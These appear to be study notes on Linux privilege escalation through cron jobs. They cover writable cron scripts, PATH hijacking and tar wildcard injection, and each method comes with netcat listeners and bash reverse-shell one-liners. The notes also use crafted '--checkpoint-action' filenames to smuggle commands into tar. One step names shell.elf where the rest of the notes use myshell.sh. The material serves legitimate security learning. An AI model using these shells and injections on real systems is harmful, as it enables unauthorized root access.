 ## Exploiting Cronjobs

Cron is a task scheduler on Unix-like systems. Allows defining commands to execute periodically. Schedules specified in chron expressions can be listed through:
> crontab -l
>

Cron jobs often do maintenance for services (e.g., clean up), often running root. If we can tamper with what those cron jobs are executing, we can execute commands as Root. 3 methods:

### 1. Writable cron scripts
overwrite.sh is executed every minute and it's **world-writable**.

Write into the script to create a bind or reverse shell:
  1. create a listening server with netcat: `nc -lp 8888`
  2. Overwrite overwrite.sh with: `bash -i >& /dev/tcp/127.0.0.1/8888 0>&1`
  3. Wait for the cron job to be executed

### 2. Insecure crontab PATH
_overwrite.sh_ is executed using its relative path => /bin/sh will search it in each directory in the PATH env variable.

Can we write in any of the directories in PATH coming before the location of overwrite.sh? if yes:
  1. Crete a listening server with netcat on the local machine: `nc -lp 7777`
  2. Create a file named overwrite.sh in /home/user containing:
```bash
#!/bin/sh
bash -i >& /dev/tcp/127.0.0.1/7777 0>&1
```
      and make it executable
  3. Wait for the cronjob to be executed

### 3. Insecure scripts
the * wildcard in cron jobs is expanded by the shell and passed to the command (tar, for example).
checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) we learn that tar can execute external commands as  part of a checkpoint feature:
1. Create a listening server with netcat on the local machine: `nc -lp 9999`
2. Create an executable script, named  myshell.sh, in the user directory 
```bash
#!/bin/sh
bash -i >& /dev/tcp/127.0.0.1/9999 0>&1
```
3. Create fake files in the user home (where the * is expanded), to trick tar:
```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
4. Wait for the cron job to be executed

What should happen: After Wildcard expansion, tar has been executed as: 
`tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=myshell.sh myshell.sh tools`

This is a general pattern (not a tar vuln, not just for cronjobs) and it’s related to insecure use of wildcards
  - A tool uses unquoted wildcards or unsafe input expansion
  - Attacker places specially crafted files with names that mimic command-line option
  - During execution, the file name is interpreted as a real option, not data
If the process runs with elevated privileges (like root in cronjobs), it can lead to code execution or privilege escalation
